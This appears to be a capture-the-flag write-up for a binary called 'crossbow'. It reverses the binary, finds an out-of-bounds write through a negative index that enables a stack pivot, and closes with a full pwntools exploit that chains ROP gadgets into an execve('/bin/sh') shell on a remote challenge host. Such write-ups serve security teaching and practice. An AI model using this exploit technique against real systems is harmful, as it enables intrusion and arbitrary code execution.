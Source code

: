 # Enumeration

First of all, we start with a `checksec` and a `file`:  

```console
╰─➤  file crossbow 
crossbow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

gdb> checksec crossbow
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

Prevents **Buffer Overflows**  
Disables **code execution** on stack 
Makes some binary sections **read-only** 

### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(&_stdin_FILE, 0LL, 2LL, 0LL);
  setvbuf(&_stdout_FILE, 0LL, 2LL, 0LL);
  alarm(4882LL);
  banner();
  training();
  return 0;
}
```

There is an interesting call to `training()`.

```c
__int64 __fastcall training(__int64 a1, __int64 a2, __int64 a3, __int64 a4, int a5, int a6)
{
  __int64 v6; // rdx
  __int64 v7; // rcx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  _BYTE v13[32]; // [rsp+0h] [rbp-20h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: You only have 1 shot, don't miss!!\n",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  target_dummy((__int64)v13, (__int64)"\x1B[1;34m", v6, v7, v8, v9);
  return printf(
           (unsigned int)"%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",
           (unsigned int)"\x1B[1;34m",
           (unsigned int)"\x1B[1;33m",
           (unsigned int)"\x1B[1;34m",
           v10,
           v11);
}
```

Nothing but an redirect to function `target_dummy()`.

```c
__int64 __fastcall target_dummy(__int64 a1, __int64 a2, __int64 a3, __int64 a4, int a5, int a6)
{
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  _QWORD *v12; // rbx
  int v13; // r8d
  int v14; // r9d
  __int64 result; // rax
  int v16; // r8d
  int v17; // r9d
  int v18; // [rsp+1Ch] [rbp-14h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Select target to shoot: ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v18, v6, v7, v8, v9) != 1 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v10,
      v11);
    exit(1312LL);
  }
  v12 = (_QWORD *)(8LL * v18 + a1);
  *v12 = calloc(1LL, 128LL);
  if ( !*v12 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v13,
      v14);
    exit(6969LL);
  }
  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    v13,
    v14);
  result = fgets_unlocked(*(_QWORD *)(8LL * v18 + a1), 128LL, &_stdin_FILE);
  if ( !result )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v16,
      v17);
    exit(69LL);
  }
  return result;
}
```

As observed, the code allows an **out of bounds (OOB)** write since we have control over `idx`, the buffer index, and there is no validation for this value.

This could trigger a vulnerability - either an out of bounds access or an integer overflow allowing memory manipulation.

Additionally, since `idx` is a signed integer, we can enter negative values. By doing so, we can overwrite the stored `$rbp` value of the stack frame with a heap pointer to our input. 
Therefore, when the function ends, the `leave` instruction rotates the stack from its original state to the user-controlled input, essentially giving us control over the execution flow.

### Debugging 

If we enter an OOB value like `-2`, we see that we overwrite `rbp`. 

![image](https://github.com/user-attachments/assets/912615c2-851a-49ba-974a-5c5347fa361a)


Once we successfully pivot the stack to a user-controlled area, we can chain a ROP sequence using the available gadgets in the binary. Since the binary is statically linked, a `ret2libc` approach isn't an option. Instead, we need to craft an `execve("/bin/sh", NULL, NULL)` system call to achieve code execution.The exploit flow is that we need to create 2 ROP chains.

# With the first one which puts "/bin/sh" in memory, we need to find writable address.

Since there is no "/bin/sh" in the memory:
```gdb
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
```
Let's find writable address:

![image](https://github.com/user-attachments/assets/fa48bb54-c4b0-4b82-a393-375f972828fa)

Yeah, I saw it, let's find the writable address that from `0x000000000040d000`.
And remember that, we find the address that store nothing:

![image](https://github.com/user-attachments/assets/aeb00b40-ed87-4701-aa44-a58bc959a819)

So many addresses there, let's choose a ranbom one and asign that value to RDI 

```py
rop = ROP(elf)
rop.rax=b'/bin/sh\x00'
rop.rdi=0x40da00
```

# Let's next to the second ROP chain, we create execve syscall:
```py
Sets up registers for an execve syscall:
RAX = SYS_execve (system call number for execve, which is 59 on x86_64)
RSI = 0 (NULL for argv)
RDX = 0 (NULL for envp)
Adds a "syscall" gadget to execute the system call
#code
rop1 = ROP(elf)
rop1(rax=constants.SYS_execve, rsi=0, rdx=0)
rop1.raw(rop1.find_gadget(["syscall"]))
```

# Solution

```py
from pwn import *
r=remote("94.237.60.63",49680)
elf=ELF("./crossbow")
context.arch="amd64"
r.sendlineafter("shoot: ",str(-2))
rop = ROP(elf)
rop.rax=b'/bin/sh\x00'
rop.rdi=0x40da00
print(rop.dump())
rop1 = ROP(elf)
rop1(rax=constants.SYS_execve, rsi=0, rdx=0)
rop1.raw(rop1.find_gadget(["syscall"]))
print(rop1.dump())

r.sendlineafter(">",p64(0x040ac2e)*1+rop.chain()+p64(0x00402199)+rop1.chain())
r.interactive()
```


![image](https://github.com/user-attachments/assets/8879b08a-1dc7-4289-b592-d86a81654d3c)

